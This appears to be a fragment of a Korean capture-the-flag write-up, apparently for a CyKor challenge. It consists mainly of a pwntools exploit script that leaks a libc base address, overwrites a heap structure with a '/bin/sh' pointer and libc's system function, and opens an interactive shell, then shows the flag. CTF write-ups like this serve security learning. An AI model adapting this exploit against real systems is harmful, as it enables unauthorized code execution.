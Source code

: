 ```python
p.sendlineafter(">", "create 2 56")
p.sendlineafter(">", "create 3 56")
sleep(5)

p.sendline("show 0")

p.recvuntil("[message] ")
libc_base = u64(p.recvn(6).ljust(8, b"\x00")) - 0x21ace0
libc.address = libc_base

log.info("libc_base : "+hex(libc_base))

p.sendlineafter(">", "create 4 80")
sleep(2)
p.sendlineafter(">", "create 5 100")
sleep(5)

p.sendlineafter(">", "create 6 100")

p.sendlineafter(">", "update 6")
p.sendlineafter("length: ", "56")

payload = p64(0)
payload += p64(0)
payload += p64(16)
payload += p64(list(libc.search(b"/bin/sh"))[0])
payload += p64(0)
payload += p64(0)
payload += p64(libc.symbols["system"])
#pause()
p.sendlineafter("message: ", payload)

p.sendlineafter(">", "show 4")

p.interactive()
```

### 결과

![image-20250315180015067](C:\Users\김준성\AppData\Roaming\Typora\typora-user-images\image-20250315180015067.png)

> flag : CyKor{7e4793eaa91e73e8a5775e1c322266e8}
